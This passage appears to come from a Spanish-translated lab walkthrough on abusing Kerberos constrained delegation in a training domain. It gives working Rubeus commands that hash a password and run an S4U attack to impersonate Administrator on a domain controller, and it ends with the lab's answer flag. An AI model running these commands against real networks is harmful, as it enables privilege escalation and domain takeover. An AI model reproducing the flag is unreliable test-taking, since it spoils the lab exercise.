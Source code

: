Copiar

```
.\Rubeus.exe hash /password:Slavi123
```

[](https://faresbltagy.gitbook.io/~gitbook/image?url=https%3A%2F%2F2537271824-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FIswWWP3l0rGuQmG2WUcr%252Fuploads%252FlVrUCBGsdiGxXdpUsVlW%252FScreenshot%2814%29.png%3Falt%3Dmedia%26token%3De86666e6-9846-4d7d-b4e4-62a7e57caca2&width=768&dpr=4&quality=100&sign=f80e5d82&sv=2)

Entonces, usaremos`Rubeus`Para obtener un boleto para el`Administrator`cuenta:

Copiar

```
.\Rubeus.exe s4u /user:webservice /rc4:FCDC65703DD2B0BD789977F1F3EEAECF /domain:eagle.local /impersonateuser:Administrator /msdsspn:"http/dc1" /dc:dc1.eagle.local /pt
```

[](https://faresbltagy.gitbook.io/~gitbook/image?url=https%3A%2F%2F2537271824-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FIswWWP3l0rGuQmG2WUcr%252Fuploads%252FznxVIRn91M0ImrSV299h%252FScreenshot%2815%29.png%3Falt%3Dmedia%26token%3Dae0df3de-841f-452f-8491-b413cf2352f2&width=768&dpr=4&quality=100&sign=de5f2ab6&sv=2)

Ahora conectemos al controlador de dominio que se hace pasar por la cuenta`Administrator`

[](https://faresbltagy.gitbook.io/~gitbook/image?url=https%3A%2F%2F2537271824-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FIswWWP3l0rGuQmG2WUcr%252Fuploads%252FoPmFwoskQ4v6NA98v2PW%252FScreenshot%2816%29.png%3Falt%3Dmedia%26token%3D52576b5e-e259-4b0e-9f3a-ceb6e4caba89&width=768&dpr=4&quality=100&sign=ff61823c&sv=2)

Respuesta: c0nstr@in3d_f1@g_dc01!